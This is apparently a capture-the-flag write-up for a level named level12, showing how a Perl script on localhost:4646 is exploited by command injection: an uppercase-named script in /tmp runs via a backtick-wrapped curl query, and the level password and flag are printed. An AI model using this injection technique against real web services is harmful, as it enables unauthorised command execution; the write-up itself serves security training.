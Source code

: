 # level12

## Vulnerability: Bad input checking

level12's password: `fa6v5ateaw21peobuub8ipe6s`

we got some intel from level00

```bash
dr-xr-x---  2 flag12 level12  33 Mar 12  2016 level12

/var/www/level12

/rofs/var/www/level12
```

1. examinate existing files and permissions

```bash
ls -la
ls -la /var/www/level12/level12.pl
cat /var/www/level12/level12.pl
```

shows a perl script that is supposed to run on localhost:4646 as flag12:level12

2. try to connect to it with netcat

```bash
nc localhost 4646
```

waits for an input, and replies `..` as expected when given a random input

3. create a custom file with an uppercase name to trick regex to match

```bash
echo "getflag > /tmp/flag" > /tmp/PWN
chmod +x /tmp/PWN
```

4. inject some code and pwn the flag

```bash
curl 'localhost:4646?x=`/*/PWN`'
cat /tmp/flag
```

gives flag: `g1qKMiRpXf53AWhDaU7FEkczr`
